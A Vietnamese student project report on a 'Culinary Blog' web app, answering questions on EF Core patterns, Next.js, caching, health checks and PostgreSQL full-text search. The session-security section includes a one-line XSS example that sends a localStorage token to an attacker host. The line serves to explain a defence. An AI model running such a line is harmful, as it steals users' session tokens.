  - Nếu file thuộc chế độ Private và email người dùng không có trong danh sách phân quyền -> Bị từ chối truy cập. Quyền hạn thay đổi linh hoạt theo từng tệp tin tài nguyên cụ thể.
* **Ngân hàng trực tuyến (E-Banking):**
  Khách hàng đăng nhập thành công vào app ngân hàng (Role: Customer). Khách hàng chỉ được phép xem số dư và chuyển tiền từ **Số tài khoản thuộc quyền sở hữu của chính mình**, không thể rút tiền từ tài khoản của khách hàng khác dù cùng có Role Customer.

---

### Câu 10: Repository Pattern trên EF Core — Testability & Dependency Inversion

#### 1. Bản chất của DbContext trong EF Core
Nhiều ý kiến cho rằng `DbContext` trong EF Core đã là một `Unit of Work`, và `DbSet<T>` đã là một `Repository`. Vậy tại sao trong Clean Architecture chúng ta vẫn cần thêm một lớp `IRepository<T>` bọc phía trên?

#### 2. Giải thích từ góc độ Dependency Inversion (DIP)
* `DbContext` và `DbSet` là các class cụ thể nằm trong thư viện `Microsoft.EntityFrameworkCore` (thuộc tầng Infrastructure).
* Nếu tầng `Application` dùng trực tiếp `DbContext`, tầng `Application` sẽ bị **phụ thuộc trực tiếp vào EF Core**.
* Khi triển khai `IRepository<T>` (định nghĩa interface ở `Domain/Interfaces/`):
  - Tầng `Application` chỉ giao tiếp với interface trừu tượng (`IRecipeRepository`).
  - Tầng `Infrastructure` chứa class cụ thể `RecipeRepository : IRecipeRepository` sử dụng `DbContext`.
  - Nhờ đó, quy tắc **Dependency Inversion** được bảo đảm 100%: Lõi nghiệp vụ hoàn toàn không phụ thuộc vào công nghệ ORM.

#### 3. Giải thích từ góc độ Testability (Khả năng kiểm thử)
* **Khó khăn khi mock `DbContext` trực tiếp:** `DbContext` và `DbSet` có hàng chục phương thức phức tạp, non-virtual methods, các extension method LINQ (`Include`, `AsNoTracking`, `ToListAsync`) gắn chặt với `IQueryable`. Việc viết Mock (`Moq` hoặc `NSubstitute`) cho một `DbSet` đòi hỏi hàng chục dòng boilerplate code thiết lập `IAsyncQueryProvider`, rất dễ lỗi.
* **Sử dụng In-Memory Database không phản ánh đúng thực tế:** EF Core InMemory Database không hỗ trợ các tính năng SQL đặc thù như Raw SQL, Stored Procedures, Transactions, và quan trọng nhất là không hỗ trợ các extension PostgreSQL bản địa (`unaccent`, `pg_trgm`, `tsvector`).
* **Sự dễ dàng khi dùng Repository Interface:**
  Viết mock cho một phương thức của Repository cực kỳ trực quan và chỉ mất 1 dòng code:
  ```csharp
  var mockRepo = new Mock<IRecipeRepository>();
  mockRepo.Setup(r => r.GetByIdAsync(recipeId, It.IsAny<CancellationToken>()))
           .ReturnsAsync(new Recipe { Id = recipeId, Title = "Bánh Mì" });
  ```
  Nhờ vậy, Unit Test của các Command/Query Handler chạy siêu tốc trong bộ nhớ (dưới 10ms) mà không cần chạm vào DB.

---

### Câu 11: Unit of Work Pattern — Vấn đề giải quyết & Use case trong Culinary Blog

#### 1. Unit of Work Pattern giải quyết vấn đề gì mà Repository Pattern một mình không giải quyết được?
* **Vấn đề phân tán giao dịch (Scattered Transactions):** Mỗi Repository thường quản lý một Entity riêng biệt (`RecipeRepository`, `IngredientRepository`, `ImageRepository`). Nếu một thao tác nghiệp vụ cần cập nhật đồng thời nhiều Repository, việc gọi `_repoA.Save()` rồi gọi `_repoB.Save()` sẽ tạo ra nhiều transaction riêng lẻ. Nếu bước thứ hai thất bại, hệ thống rơi vào trạng thái bất nhất dữ liệu (Inconsistent State).
* **Nhiệm vụ của Unit of Work:**
  - Quản lý chung một Database Context / Transaction duy nhất cho toàn bộ ca sử dụng.
  - Theo dõi toàn bộ các thay đổi (Insert, Update, Delete) của tất cả các entity liên quan trong suốt quá trình xử lý nghiệp vụ.
  - Cung cấp phương thức cam kết duy nhất `SaveChangesAsync()`: Hoặc **tất cả** cùng thành công ghi vào DB (Commit), hoặc **không có gì** được ghi nếu xảy ra bất kỳ lỗi nào (Rollback).

#### 2. Use case cụ thể trong Culinary Blog: Tạo mới Công thức nấu ăn kèm Nguyên liệu, Các bước và Ảnh đại diện (FR-RCP-003)
* **Kịch bản nghiệp vụ:**
  Một tác giả tạo món *"Phở Bò Tái Lăn"*:
  1. Thêm 1 bản ghi vào bảng `Recipes`.
  2. Thêm 12 bản ghi nguyên liệu vào bảng `RecipeIngredients`.
  3. Thêm 6 bước nấu vào bảng `RecipeSteps`.
  4. Thêm 1 ảnh chính vào bảng `RecipeImages`.
* **Nếu không có Unit of Work:**
  Lập trình viên gọi `RecipeRepository.Add()`, `IngredientRepository.AddRange()`. Nếu đến bước thêm ảnh hoặc lưu bước nấu bị lỗi kết nối mạng: Công thức đã tạo nhưng thiếu nguyên liệu, hoặc trở thành một bản ghi "rác" (Orphan record) trong hệ thống.
* **Khi có Unit of Work:**
  Toàn bộ thao tác thêm mới được thực thi trên cùng một context và hoàn tất bằng một lệnh duy nhất:
  ```csharp
  await _unitOfWork.Recipes.AddAsync(recipe);
  // Các quan hệ con được tự động tracking qua Aggregate Root
  await _unitOfWork.CommitAsync(cancellationToken);
  ```
  Nếu có lỗi ở bất kỳ bước nào, toàn bộ giao dịch được hoàn tác (Rollback), đảm bảo cơ sở dữ liệu luôn ở trạng thái sạch và toàn vẹn.

---

### Câu 12: Cartesian Explosion khi Include Collection — Công thức tính số rows & AsSplitQuery()

#### 1. Cartesian Explosion (Bùng nổ tích Descartes) là gì?
Khi sử dụng EF Core để nạp một Entity cha cùng nhiều Collection con thông qua phương thức `.Include(...)` mặc định (Single Query), EF Core sẽ sinh ra câu lệnh SQL với nhiều phép nối `LEFT JOIN`.
Nếu nạp nhiều hơn 1 quan hệ một-nhiều (1-to-many), các phép JOIN này sẽ nhân chéo số dòng của các bảng với nhau, tạo ra hiện tượng **Cartesian Product (Tích Descartes)**. Kết quả là cơ sở dữ liệu trả về số lượng dòng khổng lồ với dữ liệu bị lặp lại liên tục, gây nghẽn băng thông mạng và cạn kiệt RAM server.

#### 2. Bài toán: Recipe có 10 steps và 15 ingredients

* **Khi KHÔNG dùng `AsSplitQuery()` (Default Single Query):**
  EF Core sinh một câu lệnh SQL duy nhất:
  ```sql
  SELECT * FROM "Recipes" r
  LEFT JOIN "RecipeSteps" s ON r."Id" = s."RecipeId"
  LEFT JOIN "RecipeIngredients" i ON r."Id" = i."RecipeId"
  WHERE r."Id" = @id;
  ```
  - Số dòng kết quả trả về từ DB:
    $$\text{Số dòng} = 1 \text{ (Recipe)} \times 10 \text{ (Steps)} \times 15 \text{ (Ingredients)} = \mathbf{150 \text{ rows}}$$
  - Toàn bộ thông tin tiêu đề, mô tả dài, hướng dẫn của `Recipe` sẽ bị lặp đi lặp lại đúng 150 lần trong gói tin truyền tải qua mạng!

* **Khi SỬ DỤNG `AsSplitQuery()`:**
  EF Core sẽ tách thành 3 câu lệnh SQL độc lập và tuần tự:
  1. `SELECT * FROM "Recipes" WHERE "Id" = @id;` $\rightarrow$ Trả về **1 dòng**.
  2. `SELECT * FROM "RecipeSteps" WHERE "RecipeId" = @id;` $\rightarrow$ Trả về **10 dòng**.
  3. `SELECT * FROM "RecipeIngredients" WHERE "RecipeId" = @id;` $\rightarrow$ Trả về **15 dòng**.
  - Tổng số dòng kết quả từ DB:
    $$\text{Tổng số dòng} = 1 + 10 + 15 = \mathbf{26 \text{ rows}}$$

#### 3. Bảng so sánh tổng hợp

| Tiêu chí | Single Query (Không dùng AsSplitQuery) | Split Query (`AsSplitQuery()`) |
|---|---|---|
| **Số dòng trả về** | **150 dòng** (Bị nhân chéo $10 \times 15$). | **26 dòng** (Tổng cộng $1 + 10 + 15$). |
| **Dung lượng mạng** | Rất lớn (Dữ liệu cha bị duplicate 150 lần). | Cực kỳ nhỏ và tối ưu. |
| **Tính toàn vẹn (Consistency)** | Đảm bảo đồng nhất tuyệt đối tại thời điểm snapshot query. | Có thể xảy ra rủi ro không đồng nhất rất nhỏ nếu có transaction khác can thiệp giữa các câu query (trừ khi bọc trong snapshot transaction). |

---

### Câu 13: React Server Components (RSC) vs Client Components ("use client")

#### 1. Sự khác biệt cốt lõi

| Đặc điểm | React Server Components (RSC - Mặc định trong Next.js 15) | Client Components (Có cờ `"use client"`) |
|---|---|---|
| **Môi trường thực thi** | **Chỉ chạy trên Server** trong quá trình build hoặc request. Không bao giờ chạy trên trình duyệt. | Chạy render trước trên Server (SSR) và tiếp tục thực thi, tương tác (Hydration) trên Trình duyệt. |
| **Bundle Size gửi về Client** | **0 KB JavaScript:** Mã nguồn component và các thư viện nặng (marked, sanitize-html, dayjs) chỉ chạy trên server và không bị đóng gói vào bundle JS của client. | Tải toàn bộ mã nguồn của component và các thư viện phụ thuộc về trình duyệt, làm tăng dung lượng bundle. |
| **Khả năng Fetch Data** | Fetch trực tiếp trên Server cực nhanh (Direct DB/Backend access, gần nguồn dữ liệu, bảo mật credentials/API keys tuyệt đối). | Fetch data qua HTTP API từ trình duyệt thông qua `useEffect` hoặc TanStack Query. |
| **Tương tác người dùng** | **Không hỗ trợ:** Không dùng được `useState`, `useEffect`, `onClick`, `onChange`, browser APIs. | **Hỗ trợ đầy đủ:** Sử dụng toàn bộ hooks, xử lý sự kiện, animations, truy cập DOM. |

#### 2. Phân loại trong dự án Culinary Blog
* **Các trang/component NÊN LÀ React Server Components (RSC):**
  - `app/page.tsx` (Trang chủ tĩnh): Fetch danh sách bài viết nổi bật và danh mục trực tiếp từ backend, kết xuất HTML nhanh, tối ưu LCP và SEO.
  - `app/recipes/[slug]/page.tsx` (Trang chi tiết công thức): Đọc dữ liệu công thức, tạo JSON-LD Schema.org `@type: "Recipe"` và thẻ meta OpenGraph trực tiếp trên server giúp bot tìm kiếm đọc được ngay lập tức.
  - `app/sitemap.xml/route.ts`: Route Handler chạy hoàn toàn trên server sinh mã XML.
* **Các component BẮT BUỘC CẦN `"use client"`:**
  - `RecipeForm.tsx`: Chứa form nhập liệu 4 bước, quản lý state phức tạp (`useForm`, `useState`), lắng nghe sự kiện gõ phím, drag-and-drop ảnh, và mở popup xem trước.
  - `CookingTimer.tsx`: Đồng hồ bấm giờ các bước nấu ăn (dùng `setInterval`, `useState`, âm thanh Web Audio API).
  - `SiteHeader.tsx` & `ThemeToggle`: Xử lý click menu mobile, dropdown tài khoản và chuyển đổi Dark/Light mode (`useTheme`).
  - `RecipeDetailClientInteractive.tsx`: Checkbox gạch chân nguyên liệu đã chuẩn bị và nút bookmark/favorite.

---

### Câu 14: Bảo mật Session: HTTP-only Cookie vs localStorage & Tác động của XSS

#### 1. Tại sao lưu Session trong HTTP-only Cookie là lựa chọn bảo mật hơn?
* Khi cookie được thiết lập cờ **`HttpOnly`**, trình duyệt áp dụng chính sách bảo vệ nghiêm ngặt: **Mã JavaScript chạy trên trình duyệt hoàn toàn KHÔNG THỂ đọc hoặc can thiệp vào cookie này qua thuộc tính `document.cookie`**.
* Kết hợp cùng cờ **`Secure`** (chỉ truyền qua HTTPS) và **`SameSite=Strict`** (ngăn trình duyệt gửi cookie trong các request xuất phát từ trang web khác), cookie trở thành phương thức lưu trữ an toàn nhất cho dữ liệu phiên.

#### 2. XSS ảnh hưởng khác nhau như thế nào đến hai cách lưu trữ?
* **Trường hợp lưu trong `localStorage`:**
  - Kẻ tấn công tiêm thành công một đoạn mã độc XSS vào website (ví dụ qua nội dung bình luận chưa được khử độc).
  - Mã độc chỉ cần thực thi 1 dòng code đơn giản:
    ```javascript
    fetch('https://attacker.com/steal?token=' + localStorage.getItem('accessToken'));
    ```
  - **Hậu quả:** Kẻ tấn công lấy được token hoàn chỉnh, mạo danh nạn nhân vĩnh viễn từ bất kỳ máy tính nào trên thế giới mà nạn nhân không hề hay biết.
* **Trường hợp lưu trong `HttpOnly Cookie`:**
  - Mã độc XSS được tiêm vào trang web.
  - Mã độc cố gắng đọc cookie: `document.cookie` $\rightarrow$ Trả về chuỗi rỗng hoặc không chứa refresh token.
  - **Hậu quả:** Kẻ tấn công **không thể đánh cắp được token ra bên ngoài**. Kẻ tấn công chỉ có thể thực hiện tấn công XSRF hạn chế ngay trong phiên làm việc hiện tại của nạn nhân, nhưng không thể duy trì quyền truy cập lâu dài.

#### 3. Điều gì thay đổi khi `accessToken` của backend được đưa vào Session của Auth.js?
* `Auth.js` lưu session mã hóa trong HttpOnly Cookie phía Next.js server. Khi `accessToken` của backend được đính kèm vào session token:
  - Bản thân trình duyệt của client không thể giải mã hoặc đánh cắp trực tiếp `accessToken`.
  - Next.js Server Components đóng vai trò là "BFF" (Backend-for-Frontend): Next.js đọc `accessToken` từ cookie an toàn phía server và gửi kèm request tới .NET Backend API.
  - *Lưu ý kiến trúc:* Nếu client-side component cần gọi trực tiếp backend API, Next.js cung cấp endpoint `/api/auth/session` để client lấy access token ngắn hạn vào bộ nhớ RAM (In-memory), giữ nguyên refresh token tuyệt đối an toàn trong HttpOnly Cookie.

---

### Câu 15: Phân loại State: Server, Client, URL, Form State & Công cụ phù hợp

#### 1. Phân loại và Công cụ đề xuất

| Loại State | Đặc điểm cốt lõi | Công cụ đề xuất tối ưu | Tại sao công cụ này phù hợp nhất? |
|---|---|---|---|
| **Server State** | Dữ liệu thuộc về máy chủ, không do client làm chủ; cần fetch, đồng bộ, cache, và revalidate định kỳ (danh sách công thức, chi tiết danh mục). | **TanStack Query (React Query)** | Tự động hóa hoàn toàn cơ chế Caching, Background Refetching, Deduping requests, xử lý trạng thái Loading/Error/Success và Optimistic Updates mà không cần viết boilerplate Redux. |
| **Client State** | Dữ liệu giao diện cục bộ chỉ tồn tại trên trình duyệt và chia sẻ giữa nhiều component (trạng thái Dark/Light mode, đóng/mở sidebar, modal preview). | **Zustand** | Cực kỳ gọn nhẹ (< 1KB), API đơn giản, không cần bọc Provider lồng nhau như Context API, không gây re-render không cần thiết và hỗ trợ TypeScript hoàn hảo. |
| **URL State** | Dữ liệu trạng thái nằm trực tiếp trên URL querystring/pathname (từ khóa search, trang hiện tại, bộ lọc categoryId, view mode). | **Next.js `useSearchParams` & `useRouter`** | Đảm bảo tính khả dụng của liên kết (Shareable & Bookmarkable URL): Người dùng có thể copy liên kết gửi cho bạn bè hoặc F5 trang mà vẫn giữ nguyên kết quả tìm kiếm và bộ lọc. |
| **Form State** | Dữ liệu người dùng đang nhập dở trên form, trạng thái dirty, touched, lỗi validation của từng trường input. | **React Hook Form + Zod** | Sử dụng Uncontrolled Components (hạn chế re-render toàn form khi gõ từng ký tự), hiệu năng cao, kết hợp cùng Zod Schema cho phép validate an toàn kiểu dữ liệu end-to-end. |

---

### Câu 16: Next.js `<Image>`, prop `sizes`, Core Web Vitals & Next.js 16 fetchPriority

#### 1. Cách browser chọn ảnh dựa trên `sizes` prop
Khi sử dụng Next.js `<Image src="..." sizes="(max-width: 768px) 100vw, (max-width: 1200px) 50vw, 33vw" fill />`:
* Next.js tự động tạo thuộc tính `srcset` gồm nhiều biến thể kích thước ảnh khác nhau (ví dụ: 640w, 750w, 1080w, 1200w, 1920w).
* Trước khi tải file ảnh, trình duyệt đọc `sizes` prop để biết kích thước thực tế của vùng hiển thị ảnh trên màn hình thiết bị hiện tại (Viewport width).
* Trình duyệt kết hợp giữa kích thước vùng hiển thị đó và mật độ điểm ảnh của thiết bị (Device Pixel Ratio - DPR: 1x, 2x, 3x) để tự động chọn đúng bức ảnh có độ phân giải tối ưu nhất, không tải ảnh thừa pixel.

#### 2. Tại sao điều này quan trọng cho Core Web Vitals?
* **Largest Contentful Paint (LCP):** Ảnh banner công thức chính là phần tử LCP trên trang chi tiết. Tải một bức ảnh đúng kích cỡ giúp giảm 70-80% dung lượng file tải qua mạng, giúp ảnh xuất hiện dưới 2.5s, đạt điểm xanh LCP.
* **Cumulative Layout Shift (CLS):** Next.js `<Image>` yêu cầu xác định tỉ lệ `width/height` hoặc dùng container `fill`, giúp trình duyệt dự trữ sẵn không gian trước khi ảnh tải xong, triệt tiêu hiện tượng giật nhảy layout (CLS = 0).

#### 3. Vì sao Next.js 16 thay prop `priority` bằng `loading` / `fetchPriority` / `preload`?
* Trong các phiên bản cũ, prop `priority={true}` thực chất là một lớp bọc trừu tượng (Syntactic sugar) tự động thêm link preload và tắt lazy loading.
* Việc thay thế bằng các thuộc tính chuẩn hóa HTML hiện đại:
  1. **`fetchpriority="high"`:** Cho phép trình duyệt biết độ ưu tiên lập lịch mạng ngay ở tầng mạng của trình duyệt (Browser Network Scheduler) thay vì xử lý qua JS của Next.js.
  2. **`loading="eager" | "lazy"`:** Tuân thủ trực tiếp chuẩn Native Lazy Loading của trình duyệt web.
  3. **Tách bạch rõ ràng hành vi:** Phân định rõ giữa việc "Tải trước trong `<head>`" (`preload`) và "Ưu tiên băng thông mạng cho thẻ `` trong body" (`fetchPriority="high"`).

---

### Câu 17: Phân biệt Logging, Metrics và Distributed Tracing khi debug Performance

#### 1. Phân biệt ba trụ cột Observability

| Trụ cột | Bản chất dữ liệu | Khi nào sử dụng? | Ví dụ trong Culinary Blog |
|---|---|---|---|
| **Logging** (Nhật ký) | Dữ liệu văn bản có cấu trúc (JSON / Structured Events) ghi lại các sự kiện cụ thể xảy ra tại một thời điểm kèm ngữ cảnh chi tiết. | Khi cần điều tra **chi tiết nguyên nhân lỗi cụ thể** (Stack trace, payload request gây lỗi, user ID thực hiện hành vi). | Serilog ghi nhận: `User 852cc4dc upload file 'anh-mon-an.exe' bị từ chối do sai Magic Bytes`. |
| **Metrics** (Chỉ số) | Dữ liệu số học tổng hợp theo chuỗi thời gian (Time-series data: Counter, Gauge, Histogram) phản ánh sức khỏe tổng thể hệ thống. | Khi cần theo dõi **xu hướng hiệu năng và kích hoạt cảnh báo (Alerting)** theo thời gian thực. | Tỷ lệ lỗi HTTP 500 vượt quá 2%, Request Duration P99 > 500ms, CPU usage > 85%. |
| **Distributed Tracing** (Vết phân tán) | Biểu đồ hành trình (Span & Trace) ghi lại đường đi của một request qua toàn bộ các dịch vụ và thành phần trong hệ thống. | Khi phát hiện request bị chậm và cần xác định **chính xác "điểm nghẽn" (Bottleneck) nằm ở đâu**. | Trace ID cho thấy: Tổng thời gian 1200ms gồm 20ms Gateway, 15ms Handler, 1150ms tại câu lệnh SQL nạp công thức. |

#### 2. Kịch bản Debug một vấn đề Performance trong Culinary Blog:
* **Bước 1 (Dùng Metrics):** Dashboard Grafana/Prometheus cảnh báo endpoint `GET /api/v1/recipes` có thời gian phản hồi tăng đột biến từ $45\text{ms}$ lên $2.8\text{s}$ (P99).
* **Bước 2 (Dùng Distributed Tracing):** Truy cập Seq / OpenTelemetry Tracing, tìm trace của request bị chậm. Biểu đồ Spans cho thấy:
  - Tầng API Controller: $10\text{ms}$.
  - Tầng Redis Cache Check: $5\text{ms}$ (Cache Miss).
  - Tầng Database Query: **$2750\text{ms}$** $\rightarrow$ Xác định chính xác vấn đề nằm ở câu lệnh truy vấn PostgreSQL!
* **Bước 3 (Dùng Logging):** Mở Structured Log tương ứng với `CorrelationId` của trace đó, kiểm tra câu lệnh SQL được log bởi EF Core: Phát hiện câu lệnh tìm kiếm đang chạy `LIKE '%...%'` trên cột không có Index thay vì dùng Full-Text Search Vector, dẫn đến Full Table Scan!

---

### Câu 18: Tách biệt Liveness và Readiness Health Checks — Rủi ro khi Database chậm

#### 1. Tại sao cần tách biệt Liveness (`/health/live`) và Readiness (`/health/ready`)?
Trong môi trường Container & Kubernetes (hoặc Docker Swarm):
* **Liveness Probe (`/health/live` - "Ứng dụng còn sống không?"):**
  - Mục đích: Kiểm tra xem tiến trình ứng dụng (ASP.NET Core process) có đang chạy hay rơi vào trạng thái bế tắc (Deadlock / Crash).
  - Hành động khi Fail: Container Orchestrator sẽ **tiêu diệt (Kill) và khởi động lại container ngay lập tức**.
  - Logic kiểm tra: Chỉ kiểm tra nội tại tiến trình (In-process check), **tuyệt đối không kiểm tra tài nguyên bên ngoài**.
* **Readiness Probe (`/health/ready` - "Ứng dụng đã sẵn sàng nhận khách chưa?"):**
  - Mục đích: Kiểm tra xem ứng dụng đã kết nối thông suốt với các dịch vụ phụ thuộc (PostgreSQL, Redis, MinIO) để xử lý nghiệp vụ hay chưa.
  - Hành động khi Fail: Load Balancer sẽ **tạm ngừng điều hướng lưu lượng truy cập (Traffic)** vào container này, cho đến khi nó sẵn sàng trở lại (không kill container).

#### 2. Điều gì xảy ra nếu chỉ có một endpoint `/health` kiểm tra Database và Database bị chậm?
* **Hiện tượng sụp đổ dây chuyền (Cascading Failure / Death Spiral):**
  1. Giả sử Database bị nghẽn tải tạm thời, thời gian phản hồi DB tăng từ $5\text{ms}$ lên $5\text{s}$.
  2. Endpoint `/health` duy nhất kiểm tra kết nối DB bị timeout $\rightarrow$ Trả về `Unhealthy`.
  3. Container Orchestrator (nghĩ rằng ứng dụng đã chết) lập tức **Kill và Restart đồng loạt toàn bộ các container API**.
  4. Hàng chục container khởi động lại cùng lúc, đồng loạt tạo lại các kết nối Database Connection Pool và chạy câu lệnh khởi tạo.
  5. Database đang nghẽn tải lại bị "dội bom" thêm hàng trăm kết nối mới $\rightarrow$ **Database sập hoàn toàn**.
  6. Hệ thống rơi vào vòng lặp tử thần: Container khởi động -> Check DB fail -> Bị kill -> Restart liên tục.

---

### Câu 19: So sánh IMemoryCache và IDistributedCache khi scale-out 3 instances

#### 1. So sánh IMemoryCache và IDistributedCache

| Tiêu chí | `IMemoryCache` (In-memory Cache) | `IDistributedCache` (Redis Cache) |
|---|---|---|
| **Vị trí lưu trữ** | Nằm trực tiếp trong vùng nhớ RAM của tiến trình máy chủ hiện tại. | Nằm tập trung trên máy chủ Cache độc lập (Redis Server/Cluster). |
| **Tốc độ đọc/ghi** | Cực nhanh (Nano-giây, đọc trực tiếp con trỏ bộ nhớ). | Rất nhanh (Vài mili-giây qua kết nối socket mạng TCP). |
| **Phạm vi chia sẻ** | Độc lập cho từng instance (Mỗi server có vùng nhớ riêng). | Được chia sẻ chung cho **tất cả các instances** trong hệ thống. |
| **Dung lượng lưu trữ** | Bị giới hạn bởi dung lượng RAM của server chạy ứng dụng. | Có thể mở rộng độc lập trên cụm máy chủ Redis chuyên biệt. |

#### 2. Vấn đề của `IMemoryCache` khi scale lên 3 instances (Instance A, B, C)
* **Vấn đề Dữ liệu lỗi thời và Bất đồng bộ (Cache Inconsistency & Stale Data):**
  1. Người dùng gọi đến Instance A: Instance A nạp danh mục vào RAM của nó: `categories:all`.
  2. Admin gửi request đến Instance B để sửa tên một danh mục: Instance B xóa `IMemoryCache` cục bộ của Instance B.
  3. Instance A và Instance C **hoàn toàn không biết** sự kiện này, vẫn giữ cache danh mục cũ trong RAM.
  4. Người dùng tiếp theo gửi request: Nếu trúng Instance B thì thấy tên mới, nếu trúng Instance A/C lại thấy tên cũ! Trải nghiệm người dùng cực kỳ hỗn loạn.

#### 3. `IDistributedCache` (Redis) giải quyết điều này ra sao?
* Cả 3 instances A, B, C đều trỏ về một máy chủ Redis tập trung.
* Khi Admin cập nhật danh mục tại Instance B: Lệnh xóa key `categories:all` được gửi trực tiếp tới Redis.
* Ngay trong mili-giây tiếp theo, bất kể request rơi vào Instance A, B hay C, khi kiểm tra Redis đều nhận kết quả `Cache Miss`, từ đó tự động nạp dữ liệu mới nhất từ PostgreSQL và đồng bộ lại vào Redis.

---

### Câu 20: Full-Text Search PostgreSQL: Cấu hình "simple" vs "english" cho tiếng Việt

#### 1. Khái niệm Full-Text Search trong PostgreSQL
Full-Text Search (FTS) là kỹ thuật tìm kiếm văn bản tự nhiên bằng cách phân tích chuỗi ký tự thành các từ tố mang nghĩa (**Tokens / Lexemes**) và đánh chỉ mục GIN (Generalized Inverted Index) để tìm kiếm với tốc độ cực cao thay cho phép quét bảng chậm chạp của `LIKE '%...%'`.

#### 2. Tại sao PostgreSQL dùng cấu hình `"simple"` thay vì `"english"` cho tiếng Việt?
* **Cơ chế của từ điển `"english"`:**
  Áp dụng quy tắc biến đổi hình thái từ tiếng Anh (**Stemming / Lemmatization**):
  - Cắt bỏ các hậu tố số nhiều, thì quá khứ: `running` $\rightarrow$ `run`, `recipes` $\rightarrow$ `recip`.
  - Loại bỏ các từ dừng tiếng Anh (**Stopwords**): Bỏ các từ phổ biến như `a`, `an`, `the`, `in`, `on`, `at`, `for`.
* **Hậu quả khi áp dụng `"english"` cho tiếng Việt:**
  - Tiếng Việt là ngôn ngữ đơn lập, không biến hình, không có quy tắc ngữ pháp biến đổi đuôi `-s, -es, -ed, -ing` như tiếng Anh.
  - Thuật toán stemming của tiếng Anh sẽ tự tiện cắt gọt các từ tiếng Việt không thương tiếc, làm biến dạng hoàn toàn nghĩa của từ.
* **Tại sao `"simple"` phù hợp cho tiếng Việt?**
  - Cấu hình `"simple"` **chỉ thực hiện tách từ theo khoảng trắng và chuyển chữ thường (lowercase)**, hoàn toàn không áp dụng stemming hay loại bỏ từ dừng tiếng Anh.
  - Kết hợp với extension `unaccent`, chuỗi tiếng Việt có dấu được chuẩn hóa về dạng không dấu chuẩn Unicode, bảo đảm giữ nguyên vẹn 100% các âm tiết tiếng Việt.

#### 3. Kết quả khác nhau thế nào khi tokenize cụm từ "phở bò"?
* **Khi dùng cấu hình `"english"`:**
  - Từ `"phở"`: Trình phân tích từ vựng tiếng Anh không hiểu ký tự có dấu `ở`, có thể bóc tách sai hoặc chuyển thành token lạ.
  - Từ `"bò"`: Nếu không có unaccent, nó lưu `"bò"`. Nếu có unaccent, từ trở thành `"bo"`.
* **Ví dụ nguy hiểm hơn với các từ tiếng Việt trùng với stopword tiếng Anh:**
  - Cụm từ: *"Trứng cút sốt me cho bé"*.
  - Từ `"me"` trong tiếng Anh là đại từ nhân xưng (Stopword) $\rightarrow$ **Bị từ điển `"english"` XÓA BỎ HOÀN TOÀN**!
  - Kết quả: Người dùng tìm kiếm món *"sốt me"* sẽ không tìm thấy bài viết nào!
* **Khi dùng cấu hình `"simple"` (chuẩn của Culinary Blog):**
  - `to_tsvector('simple', unaccent('Phở bò tái lăn'))` $\rightarrow$ Trả về chính xác các lexemes: `'bo':2 'lan':4 'pho':1 'tai':3`. Tìm kiếm từ khóa `'pho'` hay `'bo'` đều khớp 100%.

---

# PHẦN II – BÁO CÁO VÀ GIẢI THÍCH MÃ NGUỒN

### 1. Báo cáo phân công công việc từng thành viên (Nhóm 13)

Dự án **Culinary Blog** được triển khai bài bản theo mô hình Clean Architecture, phân chia trách nhiệm rõ ràng theo cấu trúc module và báo cáo tiến độ qua các tuần Lab:

* **Sinh viên: Nguyễn Thành Minh (MSSV: 2312691) — Phụ trách chính Module Công thức (FR-RCP), Upload File (FR-FILE), Quản lý người dùng (FR-AUTH) và Kiểm thử hệ thống:**
  1. *Module Quản lý Công thức (Core & Extended Recipe - FR-RCP-001 đến FR-RCP-010):* Xây dựng máy trạng thái vòng đời công thức (`Draft` $\rightarrow$ `Published` $\rightarrow$ `Archived` $\rightarrow$ `Soft-deleted`), cơ chế tự động re-index số thứ tự các bước nấu (`StepNumber`), xử lý xung đột đồng thời Concurrency Control với `RowVersion`.
  2. *Pipeline Tải ảnh & MinIO S3 Object Storage (FR-FILE, FR-RCP-008):* Triển khai bộ lọc sniffing Magic Bytes 4 bytes đầu file stream chống giả mạo đuôi ảnh, cơ chế tự động đôn ảnh phụ lên làm ảnh chính khi xóa ảnh đại diện.
  3. *Frontend Studio & Reusable Components:* Thiết kế Stepper 4 bước cân đối, chế độ In-Dashboard Full Preview, quản lý thư viện hình ảnh `RecipeImageGalleryManager`.
  4. *Quản lý Người dùng & Cộng đồng Tác giả:* Backend Query `GetUsersQuery` và giao diện Dashboard phân quyền xem danh sách người dùng cho Admin/Author.
  5. *Kiểm thử tự động:* Thiết lập toàn bộ suite 299 test cases .NET và kịch bản Playwright E2E.
* **Các thành viên khác trong nhóm:**
  - Phụ trách Module Xác thực (FR-AUTH-001 $\rightarrow$ FR-AUTH-007): Đăng ký, đăng nhập, Google OAuth PKCE, Refresh Token Rotation, Account Lockout 15 phút.
  - Phụ trách Module Danh mục & Caching (FR-CAT-001 $\rightarrow$ FR-CAT-005): Quản lý danh mục, slug tiếng Việt, Distributed Cache Redis 60 phút, Invalidation Behavior.
  - Phụ trách Module Tìm kiếm & Observability (FR-SRCH, FR-OBS, FR-JOB): PostgreSQL Full-Text Search `unaccent` + `tsvector`, cấu hình Serilog, Seq Tracing và Hangfire background jobs (Resize ảnh, Welcome Email).

---

### 2. Danh mục các đoạn mã nguồn then chốt và thuyết minh kỹ thuật

#### Đoạn mã 1: Sniffing Magic Bytes chống tải lên file độc hại ([`FileValidationHelper.cs`](file:///f:/PTUDWebNangCao_2026_Nhom13/backend/src/Infrastructure/Services/FileStorageService.cs))
```csharp
private static readonly Dictionary<string, List<byte[]>> FileSignatures = new()
{
    { "image/jpeg", new() { new byte[] { 0xFF, 0xD8, 0xFF } } },
    { "image/png",  new() { new byte[] { 0x89, 0x50, 0x4E, 0x47 } } },
    { "image/webp", new() { new byte[] { 0x52, 0x49, 0x46, 0x46 } } }, // RIFF....WEBP
    { "image/avif", new() { new byte[] { 0x00, 0x00, 0x00 } } }
};

public static bool ValidateMagicBytes(Stream stream, string contentType)
{
    if (!FileSignatures.TryGetValue(contentType, out var signatures)) return false;
    stream.Position = 0;
    using var reader = new BinaryReader(stream, Encoding.UTF8, leaveOpen: true);
    var headerBytes = reader.ReadBytes(4);
    stream.Position = 0; // Reset lại con trỏ để đọc tiếp
    return signatures.Any(sig => headerBytes.Take(sig.Length).SequenceEqual(sig));
}
```
